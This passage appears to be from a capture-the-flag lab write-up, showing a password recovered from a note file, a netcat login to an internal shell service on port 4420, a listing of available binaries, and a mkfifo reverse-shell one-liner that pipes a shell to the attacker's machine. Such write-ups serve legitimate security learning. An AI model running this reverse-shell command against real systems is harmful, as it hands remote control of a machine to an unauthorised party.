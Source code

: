 - The contents of the `note.txt` gave the password for the **internal shell** in port 4420:

```bash
$ cat note.txt 
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

---

## Internal Shell

- Login into the internal shell using the password found:

```bash
$ nc  10.10.151.249 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
```

- But we don't have most of the commands.
- Only the following binaries were available:

```bash
ls -la /bin
total 1520
drwxrwxr-x  2 1001 1001    4096 Apr  2 23:05 .
drwxr-xr-x 10 1001 1001    4096 Jun  8 07:28 ..
-rwxr-xr-x  1 1001 1001 1113504 Apr  1 20:32 bash
-rwxr-xr-x  1    0    0   35064 Apr  1 20:32 cat
-rwxr-xr-x  1    0    0   35000 Apr  1 20:32 echo
-rwxr-xr-x  1    0    0  133792 Apr  1 20:32 ls
-rwxr-xr-x  1    0    0   35312 Apr  2 23:05 nc
-rwxr-xr-x  1    0    0   63704 Apr  1 20:32 rm
-rwxr-xr-x  1    0    0  121432 Apr  1 20:37 sh

ls -la /usr/bin
total 648
drwxr-xr-x 2 0 0   4096 Apr  3 01:31 .
drwxr-xr-x 4 0 0   4096 Apr  2 22:43 ..
-rwxr-xr-x 1 0 0  63672 Apr  3 01:20 mkfifo
-rwxr-xr-x 1 0 0  88280 Apr  3 01:31 touch
-rwxr-xr-x 1 0 0 499264 Apr  2 22:43 wget
```

- At this point, I tried to execute `/bin/bash`. But I could get a proper shell.
- Again reading some writeup, I found that `mkfifo` can be used to gain a reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.7.91 1234 >/tmp/f
```
